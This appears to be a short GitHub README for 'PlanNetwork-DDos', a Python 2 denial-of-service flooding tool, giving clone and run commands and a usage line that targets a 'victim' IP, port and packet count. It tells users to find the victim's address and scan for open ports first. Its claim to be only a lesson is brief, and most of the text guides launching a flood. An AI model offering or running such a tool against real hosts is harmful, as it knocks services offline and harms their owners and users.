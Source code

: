 # PlanNetwork-DDos
tool For Practicing Ddos-attack. 

𝗜𝗡𝗦𝗧𝗔𝗟𝗟 --

git clone https://github.com/Hydra7/Planetwork-DDOS

cd Planetwork-DDOS                               

python2 ./pntddos.py

𝗨𝗦𝗔𝗚𝗘 -- 

 Before using this tool you should first find the IP address of the victim and scan where the ports are open

𝗖𝗢𝗠𝗠𝗔𝗡𝗗𝗦 -- 

python2 ./pntddos.py ip port packet

python2 ./pntddos.py 192.168.xx.xx 80 3000

𝗡𝗢𝗧𝗘 -- 

 These tools are only lessons for DOS attacks
 remember, ddos ​​is only a small and very small part of the world of hacking so don't be proud if you can only do ddos
